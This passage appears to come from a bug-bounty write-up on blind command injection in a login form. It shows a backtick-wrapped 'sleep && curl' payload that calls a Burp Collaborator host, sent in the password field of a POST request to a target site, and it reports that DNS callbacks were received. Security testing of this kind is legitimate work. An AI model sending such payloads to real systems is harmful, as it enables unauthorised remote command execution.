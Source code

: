 `sleep 02 && curl http://mpfwtwsh7ylajkb4kfc5bc0i197zvo.burpcollaborator.net`



>HTTP Request

```http
POST /connexion/ HTTP/2
Host: www.target.com
Cookie: target=test
Content-Length: 61
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

username=sandsuperhot%40gmail.com&password=%60sleep%2002%20%26%26%20curl%20http://mpfwtwsh7ylajkb4kfc5bc0i197zvo.burpcollaborator.net%60

```


Success! I was able to receive valid DNS requests, but interestingly, I did not receive any corresponding HTTP requests.


>HTTP Response

![](/assets/img/4/7.JPG)

